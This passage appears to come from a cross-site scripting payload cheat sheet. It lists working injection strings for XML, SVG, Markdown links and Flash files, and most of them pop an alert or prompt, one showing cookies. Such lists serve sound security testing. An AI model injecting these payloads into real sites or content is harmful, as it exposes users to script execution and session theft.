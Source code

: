 ```
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XSS en XML

```html
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS en SVG

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

### XSS en SVG (short)

```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

### XSS en Markdown

```C#

[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
```

### XSS en SWF flash application

```powershell

Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);
IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}
IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);
```

